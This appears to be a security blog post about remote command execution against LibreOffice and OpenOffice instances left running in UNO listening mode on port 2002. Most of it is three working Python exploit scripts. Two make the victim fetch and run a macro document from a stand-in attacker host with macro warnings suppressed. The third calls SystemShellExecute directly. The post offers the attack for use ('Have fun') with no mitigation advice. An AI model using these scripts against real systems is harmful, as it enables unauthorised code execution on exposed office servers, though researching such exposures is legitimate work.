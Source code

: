 ```yaml
---
layout: post
title: LibreOffice listening mode RCE
---
```


LibreOffice (as well as OpenOffice and other relatives) allows users to control the program remotely via [listening mode](https://wiki.openoffice.org/wiki/Documentation/DevGuide/ProUNO/Starting_OpenOffice.org_in_Listening_Mode). 

This mode can be used on any supported platform (Windows, Linux, Mac OS X).

Everything you need is to start your office program with the following command:

`soffice -accept="socket,host=0,port=2002;urp;"`

or

`soffice -accept="socket,host=0,port=2002;urp;" -headless -nologo -nodefault -nofirststartwizard`

if you don't need graphical output.

If it is already started you can check it with NMap:

> PORT     STATE SERVICE VERSION
> 2002/tcp open  urp     UNO Remote Protocol (LibreOffice)


Office’s listening mode uses [Universal Network Objects (UNO)](https://www.openoffice.org/udk/common/man/uno.html) component model.
You can write your own scripts to interact with UNO API with python3-uno package.

There are several ways to execute command on remote system using UNO in LibreOffice. 

I'll show you the following three:
1. Open a document with macro in it with *MacroExecMode* set to [ALWAYS\_EXECUTE\_NO\_WARN](https://www.openoffice.org/api/docs/common/ref/com/sun/star/document/MacroExecMode.html#ALWAYS_EXECUTE_NO_WARN)
2. Open a document with macro and then call it with [getScript](https://www.openoffice.org/api/docs/common/ref/com/sun/star/script/provider/XScriptProvider.html#getScript) method
3. [SystemShellExecute](https://www.openoffice.org/api/docs/common/ref/com/sun/star/system/XSystemShellExecute.html#execute) method

Each method can be used with macro security set to **Very High**.

![Very High](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/macro_high.png)



## ALWAYS\_EXECUTE\_NO\_WARN method
Create a document with macro in it. 
You can use MSF’s */exploit/multi/misc/openoffice_document_macro* or you can create it by yourself using *Shell* function of Basic language.

![Custom macro](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/custom_macro.png)
 
Assign your macro to document opening function via *Tools -> Customize -> Open Document*.

![Open with macro](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/open_with_macro.png)


File can be accessed locally as well as remotely.


```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)

inProps = []
prop = PropertyValue()
prop.Name = "MacroExecutionMode"
prop.Value = 4 # ALWAYS_EXECUTE_NO_WARN

inProps.append(prop)  
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
document.dispose()
```
 

## getScript method
 
Create a document with macro as in previous method, then directly call a macro inside the document with *getScript* and *invoke*.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple([]))
model = desktop.getCurrentComponent()
sp = model.getScriptProvider()
sc = sp.getScript("vnd.sun.star.script:Standard.Module1.Main?language=Basic&location=document")
sc.invoke((),(),())
document.dispose()
```

## SystemShellExecute method

The best way to execute your command is to use *execute* method of *XSystemShellExecute* API interface. You don't even need to create a document to use it.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
rc = context.ServiceManager.createInstanceWithContext("com.sun.star.system.SystemShellExecute", context)
rc.execute("/usr/bin/touch", "/tmp/PWNED", 1)
```

Have fun.



